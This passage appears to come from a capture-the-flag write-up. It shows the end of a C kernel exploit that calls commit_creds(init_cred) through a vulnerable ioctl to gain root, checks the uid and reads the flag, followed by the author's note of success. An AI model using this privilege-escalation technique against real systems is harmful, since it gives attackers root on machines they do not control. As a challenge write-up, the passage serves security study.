    uint64_t commit_creds_rt = sym_runtime(kbase, SYM_commit_creds);
    kfuncy_args_t a;
    a.a0 = init_cred;                 // rdi
    a.a1 = 0;                         // rsi (unused)
    a.a2 = (uint64_t)IDX_PT_REGS_SI;  // idx into stack "function pointer table"
    if (!do_ioctl((unsigned long)commit_creds_rt, &a)) {
        fprintf(stderr, "commit_creds call failed (errno=%d)\n", errno);
        return 1;
    }

    if (getuid() != 0) {
        fprintf(stderr, "not root (uid=%d)\n", getuid());
        return 1;
    }

    read_flag();
    return 0;
}
```

Compile `exploit.c` first, then run it in the target environment.

<figure><figcaption></figcaption></figure>


and.. yeah, we got it!